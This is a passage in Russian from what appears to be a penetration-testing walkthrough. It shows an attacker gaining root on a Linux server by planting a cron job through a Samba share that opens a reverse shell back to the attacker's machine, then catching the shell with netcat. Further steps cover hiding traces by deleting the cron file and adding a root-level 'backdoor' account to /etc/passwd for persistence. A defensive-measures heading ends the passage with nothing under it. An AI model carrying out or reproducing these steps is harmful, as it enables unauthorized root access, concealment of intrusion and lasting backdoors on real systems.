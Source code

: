 **Пояснения:**  
- Скрипт устанавливает reverse shell на атакующего (192.168.1.50)  
- Cron-задача будет выполняться каждые 5 минут от root  

---

**Шаг 3: Внедрение cron-задачи**
```bash
# Копирование задачи в системную директорию
cp /mnt/smb_backup/cron_task /etc/cron.d/backup_update

# Проверка на сервере
ls -l /etc/cron.d/backup_update
# -rw-r--r-- 1 root root 67 Jun 15 12:30 /etc/cron.d/backup_update
```

**Пояснения:**  
- Файлы в `/etc/cron.d/` выполняются системным cron  
- Samba сохраняет владельца файла (root из-за `admin users`)  

---

**Шаг 4: Получение доступа**
```bash
# Запуск netcat на атакующей машине
nc -lvnp 4444

# Ожидание выполнения cron (макс. 5 минут)
# При подключении:
whoami  # root
hostname # server1
```

**Пояснения:**  
- Через 5 минут cron запустит скрипт  
- Установится reverse shell с root-привилегиями  

---

**Шаг 5: Маскировка следов**
```bash
# Удаление следов на клиенте
sudo umount /mnt/smb_backup

# На сервере:
# Удаление cron-задачи
rm /etc/cron.d/backup_update

# Внедрение персистентности
echo 'backdoor:$1$salt$Tp4b2r/9Y1eEsRfXgZcBk0:0:0::/root:/bin/bash' >> /etc/passwd
```

---

## Защитные меры

